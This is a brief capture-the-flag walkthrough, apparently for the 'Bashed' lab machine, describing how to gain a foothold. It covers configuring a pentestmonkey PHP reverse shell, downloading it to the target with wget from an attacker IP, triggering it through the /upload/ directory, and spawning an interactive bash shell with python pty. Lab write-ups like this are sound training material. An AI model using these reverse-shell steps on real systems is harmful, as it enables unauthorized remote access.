



Index
foothold calling back reverse shell with php.rev
since the server is coded in php, it makes sense to choose a reverse shell written in php, we can find one on pentestmonkey
next set these parameters in your rev.php file to call back to your ip and port


next serve up an http server on your attack machine and download it to your victim via wget
wget 10.10.14.62/rev.php


finally, navigate to your downloaded php script on bashed's /upload/ directory, set up a listener and voila!
we popped a shell and got a foothold on the box!

lets spawn an interactive shell with
python -c ‘import pty;pty.spawn("/bin/bash")’